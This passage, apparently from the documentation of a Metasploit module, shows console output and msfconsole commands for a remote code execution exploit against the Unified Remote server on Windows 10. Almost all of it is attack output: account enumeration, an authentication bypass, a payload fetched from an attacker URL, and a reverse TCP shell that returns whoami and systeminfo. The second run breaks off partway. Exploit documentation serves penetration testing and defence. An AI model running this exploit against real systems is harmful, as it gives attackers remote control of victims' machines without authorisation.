 ```
[*] 2.2.2.2:9512 - Retrieving server config
[+] 2.2.2.2:9512 - No security enabled
[+] 2.2.2.2:9512 - Found account: admin
[+] 2.2.2.2:9512 - Found account: wheres
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Opening Start Menu
[*] 2.2.2.2:9512 - Opening command prompt
[*] 2.2.2.2:9512 - Typing out payload
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Attempting to open payload
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:59233) at 2022-09-08 16:47:20 -0400
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\jhy5cTqRs.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>whoami
whoami
win10prolicense\windows

C:\Users\windows>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```

### Version 3.11.0.2483 on Windows 10, group authentication, visible true

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-ergZhp49nDBmGXz8
[*] 2.2.2.2:9512 - Retrieving server config
[*] 2.2.2.2:9512 - anonymous mode enabled, password required, bypassing
[*] 2.2.2.2:9512 - Uploading new server config
[*] 2.2.2.2:9512 - Sleeping 5 seconds for server to restart
[+] 2.2.2.2:9512 - Found account: admin
[+] 2.2.2.2:9512 - Found account: wheres
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Opening Start Menu
```